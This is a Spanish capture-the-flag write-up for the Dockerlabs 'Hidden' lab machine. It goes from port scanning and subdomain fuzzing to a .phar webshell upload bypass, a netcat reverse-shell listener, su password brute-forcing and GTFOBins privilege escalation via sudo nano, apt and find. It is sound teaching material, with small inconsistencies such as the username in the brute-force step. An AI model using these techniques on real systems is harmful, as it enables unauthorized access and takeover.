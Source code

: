 # Writeup de la Máquina Hidden de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![Primer nmap](_images/Screenshot_1.png)

Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```
![ExtractPorts](_images/Screenshot_2.png)

Teniendo el puerto copiado procedo a ejecutar un escaneo más profundo solo para el puerto 80 con nmap.

```bash
sudo nmap -p80 -sCV 172.17.0.2 -oN targeted
```

![Segundo Nmap](_images/Screenshot_3.png)

Al ver que tiene el puerto 80 decido mirar las tecnologías utilizadas en la web con whatweb.

```bash
whatweb http://172.17.0.2
```
![Whatweb](_images/Screenshot_3.png)

Al ejecutar el whatweb veo que esta redirigiendo al dominio 'hidden.lab'.

![Whatweb](_images/Screenshot_4.png)

Para solventar la redirección edito el archivo /etc/hosts

```bash
nvim /etc/hosts
```
![hosts](_images/Screenshot_5.png)

Una vez editado si ponemos el dominio en el navegador y sale la siguiente página web. En esta hago un reconocimiento inicial, pero no veo nada interesante.

![Navegador](_images/Screenshot_6.png)
![Navegador 2](_images/Screenshot_7.png)
![Navegador 3](_images/Screenshot_8.png)
![Navegador 4](_images/Screenshot_9.png)

Viendo que de primeras no veo nada interesante, procedo a hacer web fuzzing para sacar directorios y archivos

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://hidden.lab -x html,php,txt,js,sh
```
![Gobuster](_images/Screenshot_10.png)

Voy revisando lo que me ha reportado gobuster, pero no encuentro nada que me sirva para ganar acceso a la máquina.

![Warning](_images/Screenshot_11.png)

Visto que con lo anterior no he podido sacar nada, procedo a hacer una enumeración de subdominios con la herramienta wfuzz.

```bash
wfuzz -c --hc 404 --hl 9 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.2
```

![Wfuzz](_images/Screenshot_12.png) 

Descubierto el subdominio dev, lo añado al /etc/hosts para que me resuelva el dns y miro a ver que es lo que tiene.

![hosts](_images/Screenshot_13.png)

![Navegador 5](_images/Screenshot_14.png)

Veo que hay un formulario que permite la súbida de archivos, así que pruebo a subir una imagen para ver si imagenes deja subir y en efecto deja. Lo que no deja es un archivo con extensión .php.

![Upload](_images/Screenshot_15.png)

Decido hacer de nuevo directory listing pero esta vez del subdominio y veo que hay una carpeta /uploads, así que decido mirar el contenido de esta para ver si esta el archivo que he subido con anterioridad y efectivamente esta.

![gobuster 2](_images/Screenshot_16.png)

![revshell 2](_images/Screenshot_17.png)

Sabiendo todo esto creo un archivo php pero con extensión .phar que también interpreta php, dentro hago una webshell sencilla para ver si me deja acceder al sistema.

![webshell](_images/Screenshot_22.png)

Y efectivamente deja ejecutar comandos en el sistema. Por lo tanto me entablo una reverse shell por el puerto 443.

![rce](_images/Screenshot_23.png)
![revshells](_images/Screenshot_24.png)
```bash
sudo nc -nlvp 443
```
![nc](_images/Screenshot_25.png)

![Reverse shell](_images/Screenshot_26.png)

Una vez dentro del sistema busco por permisos suid, capabilities, binarios que pueda ejecutar como sudo y no encuentro nada. Voy a /home y veo que hay 3 directorios de usuarios que luego compruebo con el /etc/passwd. Y a las carpetas de estos usuarios no me deja entrar.

![/home](_images/Screenshot_28.png)

Viendo este panorama decido hacer fuerza bruta contra las contraseñas del los usuarios locales con la siguiente herramienta https://github.com/Maalfer/Sudo_BruteForce y una lista de contraseñas más pequeñas. Para esto cojo las primeras 400 filas del rockyou.txt, esto porque si le subo el rockyou entero peta.

```bash
head 400 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt > minimalRocku.txt
```
![minimalRocku](_images/Screenshot_30.png)

Para subirlo al server utilizo el campo de CV que hemos utilizado con anterioridad.

![minimalRocku](_images/Screenshot_32.png)

Para la herramienta haremos un git clone en nuestra máquina local y subiremos el archivo .sh.
```bash
git clone https://github.com/Maalfer/Sudo_BruteForce.git
```
![su brutforce](_images/Screenshot_33.png)

Una vez con todos los componentes en el server empiezo a hacer bruteforce con el usuario cafetero y saca que la contraseña es 123123.

```bash
./Linux-Su_Force.sh bobby minimalRocku.txt
```
![su brutforce](_images/Screenshot_35.png)

Teniendo la contrseña me conecto como cafetero y hago un sudo -l, en este veo que puedo ejecutar nano como el usuario john sin contraseña. A si que me voy a la página gtfobins para ver como poder escalar privilegios con nano.

```bash
sudo -l
```
```bash
sudo -u john /usr/bin/nano
^R^X
reset; sh 1>&0 2>&0
```

![privesc](_images/Screenshot_36.png)

Una vez explotada la escalada me quedo como el usuario john. Y veo que este puede ejecutar como el usuario bobby el comando apt. Miro de nuevo en gtfobins como escalar privilegios pero esta vez con apt.

```bash
sudo -u bobby apt changelog apt
!/bin/bash
```

![privesc 2](_images/Screenshot_37.png)
![privesc 3](_images/Screenshot_38.png)
![privesc 4](_images/Screenshot_39.png)
![privesc 5](_images/Screenshot_40.png)

Por último ya con el usuario bobby miro de nuevo con sudo -l los comandos que puedo ejecutar con permiso de sudo y veo que puedo ejecutar el find como root. De nuevo voy a gtfobins y miro como escalar privilegios, esta vez con find.

```bash
sudo -u root find . -exec /bin/bash \; -quit
```
![privesc 6](_images/Screenshot_41.png)
![privesc 7](_images/Screenshot_42.png)

De esta forma ya consigo permisos de root!

![privesc 8](_images/Screenshot_43.png)

